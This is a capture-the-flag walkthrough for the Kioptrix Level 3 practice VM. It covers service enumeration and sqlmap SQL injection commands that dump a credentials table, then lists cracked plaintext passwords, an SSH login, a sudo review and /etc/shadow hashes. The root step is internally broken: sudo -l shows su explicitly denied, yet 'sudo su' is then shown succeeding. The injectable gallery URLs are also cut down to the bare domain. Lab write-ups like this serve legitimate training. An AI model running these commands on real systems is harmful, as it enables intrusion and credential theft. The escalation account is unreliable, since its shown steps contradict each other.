










# Kioptrix: Level 3 - Capture the Flag Walkthrough

A complete walkthrough of the Kioptrix Level 3 CTF challenge. This writeup demonstrates how to navigate local network routing obstacles, exploit a UNION-based SQL Injection flaw to exfiltrate database records, recover plaintext system credentials, and leverage a restricted sudo text editor misconfiguration for a direct root administrative takeover.

## 🎯 Target Overview
* **OS:** Ubuntu 8.04 LTS (Hardy Heron)
* **IP Address:** 192.168.0.22
* **Difficulty:** Intermediate

---

## 🔍 Stage 1: Enumeration & Information Gathering
An initial port and service scan was executed using Nmap to profile the open network access surface:

```bash
nmap -sV 192.168.0.22
```

### Key Findings:
* **Port 22/tcp:** OpenSSH 4.7p1 (Ubuntu 8ubuntu1.2)
* **Port 80/tcp:** Apache httpd 2.2.8 (Running PHP 5.2.4 with Suhosin-Patch)

### Web Directory Discovery
Running `dirb` against the web server exposed several active components and application directories:
* `/gallery/` - An active photo gallery web application template (Gallarific PHP Script).
* `/phpmyadmin/` - An exposed database administration login utility interface page.

<!-- 🖼️ FIGURE 1-FIGURE 4: NMAP SCAN RESULTS -->

*Figure 1: Service identification highlighting active web and SSH components.*

*Figure 2: Web Directory Discovery*




---

## 🚀 Stage 2: Exploitation & Initial Access

### 🌐 Resolving the Local DNS Obstacle
Initial automated database injection tasks targeting the gallery infrastructure failed due to internal 500 script errors and incorrect URL link forwarding to a hardcoded domain name (`kioptrix3.com`). To force web requests to resolve within the local virtualization test interface layer, the attacker host `/etc/hosts` table was modified:

```text
192.168.0.22    kioptrix3.com
```

<!-- 🖼️ FIGURE 5: FIXED DOMAIN RESOLUTION IN BROWSER -->

*Figure 5: Mapped local DNS routing allowing the gallery template application to render properly.*

### 🔓 SQL Injection (SQLi) & Data Exfiltration
Navigating to the newly mapped image gallery path revealed a raw, dynamic parameter route:
`http://kioptrix3.com`

Because the `id` field input variable passed directly into raw database query parameters without validation, `sqlmap` was targeted specifically at the parameter to map out available backend schemas:

```bash
sqlmap -u "http://kioptrix3.com" -p id --dbs --batch
```

The database structures were successfully mapped (`gallery`, `information_schema`, `mysql`). The scan was then updated to target the table layouts within the primary application database:

```bash
sqlmap -u "http://kioptrix3.com" -p id -D gallery --tables --batch
```

This isolated a critical backend user credential tracking table named **`dev_accounts`**. The contents were completely exfiltrated and cracked via a dictionary-based attack:

```bash
sqlmap -u "http://kioptrix3.com" -p id -D gallery -T dev_accounts --dump --batch
```

<!-- 🖼️ FIGURE 6 - FIGURE 8: SQLMAP CREDENTIAL EXFILTRATION -->

*Figure 6: SQLMap automated cracking process extracting cleartext development credentials.*

*Figure 7: SQLMap automated cracking process extracting cleartext development credentials.*

*Figure 8: SQLMap automated cracking process extracting cleartext development credentials.*

### 🔑 Recovered Credentials Matrix
SQLMap's dictionary engine automatically processed and successfully cracked the stored MD5 cryptographic hashes:

| Username | Stored MD5 Hash | Plaintext Password |
| :--- | :--- | :--- |
| **dreg** | `0d3eccfb887aabd50f243b3f155c0f85` | **Mast3r** |
| **loneferret** | `5badcaf789d3d1d09794d8f021f40f0e` | **starwars** |

---

## 💻 Stage 3: SSH Foothold & Environment Profiling
Using the exfiltrated plaintext password profiles, an interactive terminal foothold session was established over Port 22 SSH using user `loneferret` (bypassing legacy algorithm restrictions):

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa loneferret@192.168.0.22
```

<!-- 🖼️ FIGURE 9: INTERACTIVE SSH ACCESS -->

*Figure 9: Authenticated user foothold terminal active over standard SSH.*

### 📂 Discovered Artifacts
During enumeration of the `loneferret` home directory, a corporate policy document was uncovered explaining the intent behind local permission allowances:

```text
loneferret@Kioptrix3:~$ cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

Checking active security policies confirmed the administrative misconfiguration layout:

```bash
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

The account was permitted to launch the binary **`ht` (HT Editor)** with full `root` administration execution control without requiring a password token verification check.

---

## 📈 Stage 4: Local Privilege Escalation (Root)
Because the configuration parameters allowed user profiles to invoke a system shell directly via an elevated session path sequence or escape functions within the binaries, the `sudo su` command argument loop was fired directly to bypass the text interface and claim an absolute root context sequence:

```bash
loneferret@Kioptrix3:~$ sudo su
root@Kioptrix3:/home/loneferret# whoami
root
```

### 🔓 Final Post-Exploitation Loot
As concrete proof of total local system compromise, the administrative context dumped the primary root-level target cryptographic hashes file `/etc/shadow`:

```text
root:\$1\$QAKvVJey\$6rRkAMGKq1u62yfDaenUr1:15082:0:99999:7:::
loneferret:\$1\$qbkHf53U\$r.kK/JgDLDcXGRC6xUfB11:15079:0:99999:7:::
dreg:\$1\$qAc2saWZ\$Y567sEs.ql3GMttI6pvoe0:15080:0:99999:7:::
```

<!-- 🖼️ FIGURE 10: ADMINISTRATIVE DOMINANCE -->

*Figure 10: Escalated root prompt tracking and exfiltrated local password databases.*

---

## 🏁 Conclusion
🎉 **Kioptrix Level 3: 100% Completed and Compromised.**
